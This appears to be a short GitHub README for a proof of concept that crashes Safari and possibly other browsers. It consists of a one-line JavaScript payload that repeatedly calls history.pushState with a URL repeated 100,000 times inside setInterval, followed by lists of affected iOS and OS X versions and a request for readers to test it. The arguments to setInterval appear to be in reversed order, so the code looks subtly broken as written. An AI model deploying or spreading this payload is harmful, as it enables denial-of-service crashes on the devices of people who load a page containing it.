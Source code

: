 # safari_crash_poc
This is a POC of my bug that exploits "```setInterval```" and "```history.pushState```" to crash possibly multiple browsers, tested on OS X 10.11.6. (Please test it, I need to get an idea of support. I'll patch in your Twitter handle or give you a 3 character available GitHub. )
```javascript
setInterval(350,function f() {history.pushState(0,0,location+"af6.github.io/crash/".repeat(100000));});
```
# credits
me (duh)
# support
iOS 10

OS X 10.11.6
# probable support
iOS 11.X.X

iOS 9.X.X

macOS 10.12.X

macOS 10.13.X
